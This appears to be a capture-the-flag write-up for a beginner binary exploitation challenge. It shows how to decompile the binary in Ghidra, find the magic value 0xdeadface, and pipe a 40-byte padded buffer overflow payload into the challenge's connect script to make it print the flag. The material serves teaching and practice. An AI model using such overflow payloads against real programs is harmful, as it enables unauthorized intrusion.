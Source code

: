 # HOW TO SOLVE Binary Exploitation (PWN) SHIRAKAMI FUBUKI

### USE GHIDRA
Breakdown the code using `Ghidra`. Open/Create new project then import `fubuki` file. Analyze it using ghidra automation

> Image Example

![Image Example](images/Screenshot%20from%202023-11-10%2019-13-49.png)

> Your code will look different because I change some variable to make it easy to read

You will notice that the code will print the `cat flag.txt` if we pass the right input. Click on line 25 to see where pointer at and see value for buffer protocol

> Example for the value

![value](images/Screenshot%20from%202023-11-10%2019-23-40.png)

We now have value `0xdeadface` and we just need to make the python code to catch the flag.

### CREATE PYTHON CODE
> Python code example

```python
Python 2.7.18 (default, Nov 21 2022, 21:13:16) 
[GCC 12.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import struct
>>> struct.pack('<I', 0xdeadface)
'\xce\xfa\xad\xde'
>>> exit()
```

We now have a value to pass the buffer

### RUN IT
If you remember when we examine the code, the max buffer is [40]. We can create an shortcut for it. Run with command `python2 -c "print('A'*40 + '\xce\xfa\xad\xde')" | ./connect.sh` and you will rewarded with the flag.

![Result](images/Frame%201.png)
